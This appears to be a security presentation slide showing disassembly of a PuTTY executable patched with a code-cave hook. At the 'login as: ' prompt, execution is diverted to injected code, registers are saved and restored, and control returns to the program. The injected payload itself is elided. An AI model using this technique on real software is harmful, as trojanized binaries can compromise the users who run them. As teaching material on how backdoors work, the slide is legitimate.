

USER INTERACTION
0045909B | 68 FC834D00 | push putty.4D83FC | 4D83FC:"login as: "
0045909B | E9 36A20900 | jmp 0x004F32D6
004590A0 | E8 0B4AFEFF | call 0x0043DAB0
004590A5 | 83C4 04     | add esp,4
004F32D6 | 60            | pushad
004F32D7 | 9C            | pushfd
004F32D8 | FC            | cld
…
004F341A | 90            | nop
004F341B | 90            | nop
004F341C | 81C4 04020000 | add esp, 0x204
004F3422 | 9D            | popfd
004F3423 | 61            | popad
004F3424 | 68 FC834D00   | push 0x004D83FC | 4D83FC:"login as: "
004F3429 | E9 725CF6FF   | jmp 0x004590A0